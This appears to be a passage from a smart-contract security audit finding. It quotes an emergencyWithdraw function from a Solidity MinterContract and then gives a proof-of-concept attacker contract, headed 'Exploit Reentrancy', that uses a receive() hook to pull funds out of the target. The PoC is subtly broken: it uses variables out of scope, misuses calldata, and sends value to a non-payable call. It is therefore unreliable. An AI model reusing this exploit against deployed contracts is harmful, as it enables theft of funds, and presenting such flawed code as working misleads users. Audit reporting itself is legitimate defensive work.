 ```sol
    function emergencyWithdraw() public FunctionAdminRequired(this.emergencyWithdraw.selector) {
        uint balance = address(this).balance;
        address admin = adminsContract.owner();
        (bool success, ) = payable(admin).call{value: balance}("");
        emit Withdraw(msg.sender, success, balance);
    }
```
**Exploit Reentrancy**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./MinterContract.sol";

contract tMinterContract {

   MinterContract public x1;

   constructor(MinterContract _x1) {

      x1 = MinterContract(_x1);

   }

   function testRenterD() public payable {
      
      string memory tokenData = string("0x1e18");
      bytes32[] calldata merkleProof = new bytes32[1]();
      merkleProof[0] = bytes32(0x3);      

      x1.burnOrSwapExternalToMint(address(_x1), 
         uint256(2), 
         uint256(24), 
         uint256(34), 
         tokenData, 
         merkleProof, 
         uint256(7));

      x1.payArtist{value: 2 ether}(uint256(24), 
         address(_x1), 
         address(_x1), 
         uint256(10), 
         uint256(20));

      x1.updateAdminContract(address(_x1));

      x1.emergencyWithdraw{value: 2 ether}();

   }

   receive() external payable {

      msg.sender.transfer(payable(address(_x1)).balance);

   }
   
   }
```
## Tools Used
VS Code.